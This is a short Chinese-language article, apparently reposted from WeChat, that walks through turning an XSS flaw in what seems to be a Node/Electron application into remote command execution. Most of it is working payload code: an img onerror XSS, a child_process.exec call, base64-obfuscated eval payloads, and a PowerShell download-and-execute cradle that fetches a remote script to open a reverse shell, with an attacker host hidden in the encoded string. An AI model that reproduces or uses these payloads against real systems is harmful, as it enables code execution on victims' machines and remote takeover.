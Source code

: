 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZX05EPTYPPGru64DnCOG5g)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2rfwicICleuUVO2Av0aqK8R6MskAyG13HLziaFU1jj4ibEpvXicwWT2ibF0SXdjqEhicEIVvrfm3anV36w/640?wx_fmt=png)

漏洞利用方式：

选择事件型 XSS 需要附带 onerror 事件，比如 img、audio 等。

弹窗代码：

<img src=x oneror=alert(1)>

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2rfwicICleuUVO2Av0aqK8RCBykwMJzZNiaexn8ekueZxB5e7jf5ic8jRZOW9XXjrz60bAKX3JjYfKw/640?wx_fmt=png)

构造命令执行 payload

require('child_process').exec('ipconfig/all',(error, stdout, stderr)=>{

   alert(`stdout: ${stdout}`);

  });

最终利用代码：

<img src=# onerror='eval(newBuffer(`cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2lwY29uZmlnIC9hbGwnLChlcnJvciwgc3Rkb3V0LCBzdGRlcnIpPT57CiAgICBhbGVydChgc3Rkb3V0OiAke3N0ZG91dH1gKTsKICB9KTs=`,`base64`).toString())'>

反弹 shell 命令

CS 生成 powershell 脚本

```
powershell.exe -nop -w hidden -c "IEX((new-objectnet.webclient).downloadstring('http://127.0.0.1/test/'))"
 
require('child_process').exec('powershell.exe-nop -w hidden -c "IEX ((new-objectnet.webclient).downloadstring(\'http://127.0.0.1/test\'))"',(error,stdout, stderr)=>{
   alert(`stdout: ${stdout}`);
  });
 
cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3Bvd2Vyc2hlbGwuZXhlIC1ub3AgLXcgaGlkZGVuIC1jICJJRVggKChuZXctb2JqZWN0IG5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKFwnaHR0cDovLzE5Mi4xNjguNzIuMTI5OjgwODEvYWJjZGVcJykpIicsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsKICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOwogIH0pOw==
 
<img src=# onerror='eval(newBuffer(`cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3Bvd2Vyc2hlbGwuZXhlIC1ub3AgLXcgaGlkZGVuIC1jICJJRVggKChuZXctb2JqZWN0IG5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKFwnaHR0cDovLzE5Mi4xNjguNzIuMTI5OjgwODEvYWJjZGVcJykpIicsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsKICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOwogIH0pOw==`,`base64`).toString())'>
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2rfwicICleuUVO2Av0aqK8REzHKuk27Bz7hdgn2XlDbe4wFqTXOOHYanZox9iaYSYmyibIE3vSrACgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2rfwicICleuUVO2Av0aqK8Rf2XgibYNUuZe7KoAiahtxYk5GU8pvUicFYdscGKHBP2MkqN3rKFia8yTAA/640?wx_fmt=png)